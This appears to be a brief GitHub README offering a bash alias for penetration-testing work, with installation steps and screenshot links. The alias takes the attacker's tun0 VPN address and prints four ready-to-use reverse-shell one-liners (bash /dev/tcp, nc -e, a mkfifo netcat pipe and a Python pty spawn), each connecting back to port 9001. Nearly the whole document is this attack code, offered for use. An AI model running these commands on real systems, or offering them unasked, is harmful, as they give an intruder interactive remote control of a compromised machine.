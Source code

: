 # Set a Bash Alias for Common Reverse Shell's
```bash
alias reverse="arg1=\$(ip -f inet addr show tun0 | grep -Po 'inet \K[\d.]+'); printf \"bash -i >& /dev/tcp/\$arg1/9001 0>&1\"; printf \"\n\nnc -e /bin/sh \$arg1 9001\"; printf \"\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \$arg1 9001 >/tmp/f\";printf \"\n\npython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"\$arg1\\\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\n\n\""
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse</b>"

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/4gWwukP.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/SSu6L0r.png">
<br>
<br>
<b>Please feel free to modify this!</b>
